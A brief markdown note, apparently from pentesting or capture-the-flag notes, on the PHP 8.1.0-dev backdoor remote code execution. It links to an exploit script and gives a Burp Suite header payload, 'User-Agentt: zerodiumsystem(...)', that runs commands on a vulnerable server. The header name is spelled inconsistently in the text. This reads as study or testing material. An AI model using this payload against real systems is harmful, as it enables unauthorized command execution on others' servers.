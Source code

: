 Backdoor RCE exploit

# Backdoor RCE exploit

### Requirements
- **php 8.1.0-dev**


### Links to scripts
- [http://github.com/flast101/php-8.1.0-dev-backdoor-rce](http://github.com/flast101/php-8.1.0-dev-backdoor-rce)


### Alternate way using Burp Suite
- Grab request to the site running the php. Pass the request over to repeater and add a extra header named **User-Agenttt**
`User-Agentt: zerodiumsystem("<command to execute>");`